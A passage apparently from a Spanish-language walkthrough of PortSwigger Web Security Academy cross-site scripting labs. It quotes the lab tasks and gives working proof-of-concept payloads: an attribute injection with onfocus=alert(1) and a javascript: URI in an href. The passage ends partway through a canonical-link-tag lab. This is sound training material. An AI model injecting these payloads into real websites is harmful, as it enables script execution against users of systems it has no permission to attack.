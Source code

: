 ```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
```

Payload

```
" autofocus onfocus=alert(1) x="
```

![](img30.png)

## 11. Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
```

![](img31.png)

Payload

```
javascript:alert(document.domain)
```

![](img32.png)

![](img33.png)

## 12. Lab: Reflected XSS in canonical link tag

```
This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X
Please note that the intended solution to this lab is only possible in Chrome.
```

Entonces vamos a la url y agregamos lo siguiente y verificamos si existe alguna variacion en el codigo:

```
https://acd71f591ee689ce804595b50035007d.web-security-academy.net/?payload
```
